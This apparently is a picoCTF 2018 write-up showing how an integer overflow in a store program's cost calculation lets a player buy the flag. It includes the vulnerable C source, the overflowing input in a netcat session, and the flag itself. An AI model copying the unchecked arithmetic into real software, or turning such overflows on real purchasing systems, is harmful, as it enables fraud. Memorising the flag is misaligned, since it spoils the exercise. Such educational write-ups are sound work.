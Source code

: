 #LEVELGOAL

Westartedalittlestore[1],canyoubuytheflag?Source[2].Connectwith2018shell1.picoctf.com5795.

#HINTS

(1)Two'scomplimentcandosomeweirdthingswhennumbersgetreallybig!

#SOLUTION

It felt more awesome to see the effect rather than exploiting this vulnerability.

Let's look at the source file. Download `source.c` from the challenge window.

```
nikhilh@ubuntu:~/Downloads$ cat source.c
...
        if(auction_choice == 1){
            printf("Imitation Flags cost 1000 each, how many would you like?\n");
                
            int number_flags = 0;
            fflush(stdin);
            scanf("%d", &number_flags);
            if(number_flags > 0){
                int total_cost = 0;
                total_cost = 1000*number_flags;
                printf("\nYour total cost is: %d\n", total_cost);
                if(total_cost <= account_balance){
                    account_balance = account_balance - total_cost;
                    printf("\nYour new balance: %d\n\n", account_balance);
                }
                else{
                    printf("Not enough funds\n");
                }
            }
        }
...
        if(account_balance > 100000){
            printf("YOUR FLAG IS:\n");
        }
        else{
            printf("\nNot enough funds for transaction\n\n\n");
        }
...
```

So, our aim is to get our balance to go beyond `100000` and to get there, we'll use a vulnerability called `Integer Overflow`. Study this block of code:

```
int total_cost = 0;
total_cost = 1000*number_flags;
```

What would happen if value of `number_flags` is so high that `total_cost` overflows? `total_cost` is a `signed int` type, so it can hold a maximum value of `2^31 - 1` (assuming `int` is 4 bytes). So, rom the equation that we have, if we input a value little more than `(2^31 - 1) / 1000`, we should be able to overflow `total_cost`.

```
nikel@pico-2018-shell-1:/problems/absolutely-relative_4_bef88c36784b44d2585bb4d2dbe074bd$ nc 2018shell1.picoctf
.com 5795

Welcome to the Store App V1.0
World's Most Secure Purchasing App

[1] Check Account Balance
[2] Buy Stuff
[3] Exit

Enter a menu selection
1

Balance: 1100 

Welcome to the Store App V1.0
World's Most Secure Purchasing App

[1] Check Account Balance
[2] Buy Stuff
[3] Exit

Enter a menu selection
2
Current Auctions
[1] I Can't Believe its not a Flag!                                                                            
[2] Real Flag                                                                                                  
1                                                                                                              
Imitation Flags cost 1000 each, how many would you like?                                                       
2148484                                                                                                        
                                                                                                               
Your total cost is: -2146483296                                                                                

Your new balance: 2146484396                                                                                   

Welcome to the Store App V1.0                                                                                  
World's Most Secure Purchasing App                                                                             
                                                                                                               
[1] Check Account Balance                                                                                      
[2] Buy Stuff                                                                                                  
[3] Exit                                                                                                       
                                                                                                               
Enter a menu selection                                                                                        
2                                                                                                              
Current Auctions                                                                                               
[1] I Can't Believe its not a Flag!                                                                            
[2] Real Flag                                                                                                  
2                                                                                                              
A genuine Flag costs 100000 dollars, and we only have 1 in stock                                               
Enter 1 to purchase1                                                                                           
YOUR FLAG IS: picoCTF{numb3r3_4r3nt_s4f3_dbd42a50}                                                             
```

#FLAG

picoCTF{numb3r3_4r3nt_s4f3_dbd42a50}
